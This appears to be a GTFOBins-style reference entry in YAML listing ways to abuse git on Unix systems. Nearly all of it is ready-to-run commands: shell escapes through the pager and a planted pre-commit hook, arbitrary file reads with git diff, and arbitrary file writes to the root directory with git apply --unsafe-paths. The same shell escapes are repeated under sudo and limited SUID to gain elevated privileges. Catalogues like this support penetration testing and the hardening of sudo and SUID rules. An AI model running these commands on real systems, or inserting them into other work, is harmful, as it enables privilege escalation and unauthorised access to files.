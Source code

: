 ```yaml
---
functions:
  shell:
    - code: PAGER='sh -c "exec sh 0<&1"' git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        git help config
        !/bin/sh
    - description: The help system can also be reached from any `git` command, e.g., `git branch`. This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        git branch --help config
        !/bin/sh
    - description: Git hooks are merely shell scripts and in the following example the hook associated to the `pre-commit` action is used. Any other hook will work, just make sure to be able perform the proper action to trigger it. An existing repository can also be used and moving into the directory works too, i.e., instead of using the `-C` option.
      code: |
        TF=$(mktemp -d)
        git init "$TF"
        echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
        mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
        git -C "$TF" commit --allow-empty -m x
    - code: |
        TF=$(mktemp -d)
        ln -s /bin/sh "$TF/git-x"
        git "--exec-path=$TF" x
  file-read:
    - description: The read file content is displayed in `diff` style output format.
      code: |
        LFILE=file_to_read
        git diff /dev/null $LFILE
  file-write:
    - description: Git apply writes to files specified in the patch when supplied with a directory and the flag `--unsafe-paths`. Patch file must be in the valid format. 
    - description: This creates a new file with two lines.
      code: |
        TF=$(mktemp -d)
        LFILE=file_to_write
        echo "--- /dev/null" > "$TF/temp.patch"
        echo "+++ b$LFILE" >> "$TF/temp.patch"
        echo "@@ -0,0 +1,2 @@" >> "$TF/temp.patch"
        echo "+ line_1_content" >> "$TF/temp.patch"
        echo "+ line_2_content" >> "$TF/temp.patch"
        git apply "$TF/temp.patch" --directory / --unsafe-paths
    - description: This removes a line from an existing file and adds a new line.
      code: |
        TF=$(mktemp -d)
        LFILE=file_to_write
        echo "--- a$LFILE" > "$TF/temp.patch"
        echo "+++ b$LFILE" >> "$TF/temp.patch"
        echo "@@ -1,4 +1,4 @@" >> "$TF/temp.patch"
        echo " this is a test" >> "$TF/temp.patch"
        echo " with multiple lines" >> "$TF/temp.patch"
        echo "-this line will be removed" >> "$TF/temp.patch"
        echo " this line will have another after" >> "$TF/temp.patch"
        echo "+a new line" >> "$TF/temp.patch"
        git apply "$TF/temp.patch" --directory / --unsafe-paths
        
  sudo:
    - code: sudo PAGER='sh -c "exec sh 0<&1"' git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git -p help config
        !/bin/sh
    - description: The help system can also be reached from any `git` command, e.g., `git branch`. This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git branch --help config
        !/bin/sh
    - description: Git hooks are merely shell scripts and in the following example the hook associated to the `pre-commit` action is used. Any other hook will work, just make sure to be able perform the proper action to trigger it. An existing repository can also be used and moving into the directory works too, i.e., instead of using the `-C` option.
      code: |
        TF=$(mktemp -d)
        git init "$TF"
        echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
        mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
        sudo git -C "$TF" commit --allow-empty -m x
    - code: |
        TF=$(mktemp -d)
        ln -s /bin/sh "$TF/git-x"
        sudo git "--exec-path=$TF" x
  limited-suid:
    - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
---
```


